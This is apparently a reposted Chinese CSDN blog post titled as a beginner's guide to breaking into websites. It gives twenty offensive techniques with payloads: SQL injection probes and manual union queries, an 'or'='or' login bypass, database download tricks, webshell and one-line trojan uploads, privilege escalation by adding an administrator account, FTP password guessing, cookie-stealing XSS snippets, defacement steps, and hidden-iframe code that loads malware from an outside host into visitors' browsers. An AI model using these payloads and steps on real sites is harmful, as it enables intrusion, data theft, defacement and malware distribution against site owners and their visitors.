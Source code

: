 ```yaml
---
layout: post
title: 网站入侵思路（初级黑客渗透篇）
tags: 基础知识 渗透 渗透思路
categories: 基础知识
published: true
---
```




 1，〓经典注入〓
     通常，判断一个网站是否存在注入点，可以用’，and 1=1 ,and 1=2,+and+1=1,+and+1=2,%20and%201=1,%20and%201=2,来判断，如果and 1=1正常返回页面，1=2错误，或者找不到，那么就存在注入点
  2，〓万能密码OR漏洞〓
    万能密码'or'='or',可以用在后台管理输入，有的网站由于没有过滤OR漏洞，输入OR直接就可以突破，一般漏洞存在于ASP类型的网站
 3，〓爆库〓
   爆库，可以理解为爆出数据库下载，用爆库之类的工具可以直接就获得管理员用户和密码，%5C为十六进制的\符号，而数据库大于5.0就可以进行爆库，如在PHP手工高级注入时，用VERSION（）这个变量猜出网站数据库版本，如果一个网站数据库大于5.0，且是ACESS数据库，那么提交地址是：http://www.xxx.com/rpc/show24.asp?id=127,我们直接把%5C加到RPC后面，因为%5C是爆二级目录，所以应该是这样，http://www.xxx.com/rpc%5c/show24.asp?id=127,而%23是代表#，如果管理员为了防止他人非法下载数据库，而把数据库改成#database.mdb,这样防止了，如果页面地址为http://www.xx.com/rpd/#database.mdb,是这样的，那么我们把%23加到替换#,http://www.xx.com/rpd/%23database.mdb
  4，〓COOKIE中转，SQL防注入程序，提醒你IP已被记录〓
  COOKIE中转，SQL防注入，如果检测一个网站时，弹出这样一个对话框，上面出现SQL防注入程序提醒的字语，那么我们可以利用COOKIE中转，注入中转来突破，方法是先搭建一个ASP环境（且网站为ASP网站），然后打开中转工具，记住一个网站的页面地址粘贴进工具里，值是多少就写多少，生成，把生成的文件放到目录里，接下来，打开网页，输入http://127.0.0.1:(端口）/目录里文件，如果正常，那么输入http://127.0.0.1:端口/值（目录文件）？提交值，那么拿到工具里猜表名，列名了
  5， 〓手工〓
  ASP手工语句   表名 and exists (select * from 表名)
                             列名 and (select count(列名) from 表名)>0
                             长度 and (select top 1 len(username) from admin)>0
                              内容 and (select top 1 asc(mid(username,1,1)) from admin)>100
PHP手工语句：order by（猜字段），and 1=2 union select  （字段数）and 1=2 union selsect from(位置）
  如果有30个字段，那么就应该在注入地址后输入http://www.xxx.com/showfo.jsp?id=130 and 1=2 union select  1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28.29,30
几个常用变量 ，USER(),VERSION()<数据库版本），database()<数据库名称>
6，〓抓包拿WEBSHELL〓
如果进入后台发现，点数据库备份的时候发现找不到，可以通过抓包来获得上传，拿到WEBSHELL，工具WOSCK抓包，一张图片，一个ASP马，自行搭建一个上传地址，UPLOAD加载，UPFILE上传，COOKIS=（  ）
7，〓数据库备份拿WEBSHELL和一句话木马入侵〓
通常进入后台了，发现有数据库备份，拿WEBSHELL吧，找一个添加产品的地方，传一个大马，格式为JPG图片，然后把图片地址粘贴到数据库备份那里，给起个名字，如SHELL.ASP,然后合地址访问的时候就进入webshell了，一句话木马入侵，先编辑记事本，加入一句话，改为2.jpg,然后备份，访问，发现500内部服务器错误，证明一句话成功，接下来用一句话木马客户端连接，得到路径页面，然后改下马名，输入大马内容，提交，得到WEBSHELL
8，〓DB权限差异备份拿WEBSHELL〓
如果一个网站注入点是MYSQL数据库，且是DB权限，或者是SA权限，能够列目录，那么就好办了，找到网站的目录，目录通常在D和E盘，备份个小马，合地址访问看看成功没，直接备份大马貌似不行，成功后，再输入大马内容，拿到WEBSHELL
9，〓找后台〓
找后台，一般默认为admin,admin/admin.asp,admin/login.asp,.admin_login.asp,manage/login.asp,login.asp,logon,user.asp,admin/index.asp,当然，这只是默认，一些大网站不可能还用admin作为后台，有的隐藏很深，可以简单用site:网站 inurl:后台来猜，或者下载源HTML文件分析找出后台，或者用各种工具来扫描了，方法很多的
10，〓脚本提示〓
有的网站要求进入后台会出现一个脚本提示，就像VB编程里INPUTBOX “”，一个对话输入框，我们输入administrator突破，admin代表以管理员身份来进入
11，〓php后门和EWEBEDITOR编辑器入侵〓
PHP后门，如之前爆出的DISZ漏洞，在一个PHP网站后面加C.PHP,如果出现1，那么传个PHP马就拿到WEBSHELL，EWEBEDITOR编辑器入侵，是很快速的方式，设置好上传文件类型，传ASA，或者其他的格式，然后访问拿到WEBSHELL，如没有直接加语句拿到WEBSHELL
12，〓上传漏洞〓
  有的网站虽然没有注入点，但存在一个上传漏洞，那么我们如何来利用了，首先，打开上传地址看是否存在，如果有，试想传一个ASP大马是不行的，那么传一句话看看，先看能成功不，用明小子来上传，动网，动力，动感，乔客4种方式，页面地址格式要对应，如果一个网站地址弹出对话框，显示上传成功，那么证明可以拿到WEBSHELL，传马，另外有的没有任何显示，直接空的，那么可以构建两个上传，第一个传JPG的图片，第二个传ASP马（大马），记住，大马后面要有个空格才行，如果一个网站地址出现文件类型不正确，请重新上传，那么证明%90可以拿到WEBSHELL，只是格式不对，不允许，改后缀，只要是网站没有过滤的格式，如果一个网站地址显示请登陆再上传，那么证明没有拿到COOKIS，思路是在该网站注册一个用户，得到COOKIS，然后上传就成功了
13，〓简单提权拿下服务器和SERV提权和pcanywhere三方提权〓
简单拿下服务器，也就是拿下网站IP主机，首先我们需要一个WEBSHELL，然后看看组件信息，看看路径可读可以写不，如果有一个可以，那么来到CMD命令下，首先输入可写的文件内容，执行命令加一个帐号和最高管理权限，然后输入netstat -an,得到主机连接端口，然后用3389连接进入，让其成为肉鸡（最好），这样比较隐蔽我们操作
14，〓反查入侵和旁注和社会工程学〓
反查IP入侵，也就是入侵21，端口，首先我们入侵网站先PING WWW.XXX.COM ,出IP，然后到反查IP站点查挂了多少个域名，接下来，添加webmaster@地址，加入字典，（里面多收集可能的口令，如123，321，456），然后用流光探测密码，登陆ftp://ip,输入用户和密码，改掉信息等等，社会工程学X-WAY，来得到FTP密码，也需要收集，并不是每个都行，总之是自己的经验
15，〓跨站脚本攻击〓
跨站（CSS），被动攻击，现在需要更多的思路和经验了
三段经典跨站代码
<script>alert("跨站开始")</script>
<script>alert("document.cookie")</script>
<script>window.open(http://www.hackgirl.net)</script>
16〓特殊空格〓
利用TAB制作的特殊空格，然后注册时输入空格，加管理名字，随便在网站上找个斑竹，或者管理的名字，这样来注册，有时自己注册的这个也会变成管理员
17，〓改主页〓
改主页，拿到WEBSHELL后，先找出首页文件，一般为index.asp,index.php.index.jsp,index.html,然后来到站点根目录，编辑index.asp(首页），清空，最好备份，输入自己的主页代码（黑页），保存，再访问时已经变成自己想要的结果了
18，〓挂马〓
首先在WEBSHELL里，建立一个文本，改为1.htm,接下来在主页最下面挂
两段经典挂马代码
<html>
<iframe src="http://www.xxxx.com/2.htm" width="0" height="0" frameborder="0"></iframe>
</html>
<SCRIPT language=javascript>         
window.open("http://www.xxx.com/2.htm","","toolbar=no,location=no,directories=no,status=no,menubar=no,scrollbars=no,width=1,height=1");   
</script>
19 〓 GOOGLE BACK语句〓（很多）
inurl:asp?id=    ,inurl:show.asp  ,inurl:went.asp ,inurl:jsp?id=,inurl:php?id=
20,〓自寻漏洞〓
自己根据自己的技术经验和积累，找出还没有被发现的漏洞（思路问题了）

C段，旁站，劫持，欺骗，嗅探，社工
————————————————
版权声明：本文为CSDN博主「lizhengnanhua」的原创文章，遵循CC 4.0 BY-SA版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/lizhengnanhua/java/article/details/39198349